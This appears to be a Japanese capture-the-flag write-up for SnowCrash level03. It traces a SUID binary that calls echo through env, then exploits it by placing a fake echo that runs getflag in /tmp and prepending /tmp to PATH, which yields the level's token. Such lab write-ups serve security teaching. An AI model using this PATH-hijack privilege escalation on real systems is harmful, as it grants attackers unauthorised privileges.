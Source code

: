 
```sh
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```


-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

SUID (s in owner権限位置):
プログラム実行時、実行者は一時的にファイル所有者 (この場合 flag03) の権限で実行できます
バイナリファイル実行時のみ有効
SGID (s in group権限位置):
プログラム実行時、実行者は一時的にファイルのグループ (この場合 level03) の権限で実行できます

https://docs.oracle.com/cd/E19455-01/806-2718/secfiles-69/index.html

実ユーザーIDと実効ユーザーIDが異なる場合、実効ユーザーIDがファイルの所有者である場合、ファイルの所有者の権限が使用されます。

実行してみる

```sh
level03@SnowCrash:~$ ./level03
Exploit me
```

level03の実行ファイルがあるので、中身を見る

```sh
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                                                                                   = 2003
geteuid()                                                                                                                                   = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                                         = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                                         = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                      = 0
+++ exited (status 0) +++
```

/usr/bin/env echo Exploit me"Exploit me が実行されている


偽のechoを作成して、PATHを変更する

```sh
echo '#!/bin/sh' > /tmp/echo
echo 'getflag' >> /tmp/echo
chmod +x /tmp/echo
```

```sh
export PATH=/tmp:$PATH
```

答えが見える

```sh
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```


## 補足

ギドラだと、以下のようなコードになっている

```
void main(void)
{
  __gid_t __rgid;
  __uid_t __ruid;

  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  system("/usr/bin/env echo Exploit me");
  return;
}
```

system()関数を使用するとき、セキュリティ上の理由から、ライブラリやシェルはプロセスの効果的ユーザーIDを実ユーザーIDに戻すことがあります。これは、特権のエスカレーションを防ぐための一般的な安全対策です。

しかし、このプログラムでは、setresuid()とsetresgid()を使用して、実ユーザーIDと効果的ユーザーIDを同じに設定し、特権が維持されるようにしています。これにより、system()を呼び出したときに、特権が失われることを防いでいます。

もしこのコードがなければ、system()呼び出し時に実効ユーザーIDが実ユーザーID（level03）にリセットされ、getflagを実行する権限がなくなります。
